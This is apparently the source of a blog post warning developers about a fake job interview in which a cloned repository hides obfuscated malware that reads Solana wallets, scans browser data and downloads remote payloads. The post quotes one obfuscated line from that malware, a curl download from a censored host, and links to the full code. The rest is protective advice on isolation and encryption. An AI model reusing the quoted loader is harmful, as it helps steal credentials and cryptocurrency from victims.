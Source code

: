 ```yaml
---
date: '2024-12-14T22:24:22-06:00'
title: 'You Could Lose Your Crypto In a Job Interview'
categories:
- opinions
coverImage: "images/tech-interview-hacking-obfuscated-code.jpg"
description: 'This is the story about a guy who was about to lose all his crypto and probably get hacked in a job interview for a remote position'
keyword: ''
keywords:
- 'crypto'
- 'interview'
- 'github'
- 'hacking'
- 'docker'
authors:
- 'Eduardo Zepeda'
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library](/en/using-github-to-evaluate-developers-is-naive/) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address](/en/basic-characteristics-of-an-api-rest-api/), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can quickly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this either especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount your hard drive in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes, encrypt them. 

I don't plan to offer details because there is already too much on the internet, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't care, there are tools like Kleopatra, which make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from these practices? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X.

{{< twitter user="jibolaojo" id="1860605769856508209" >}}

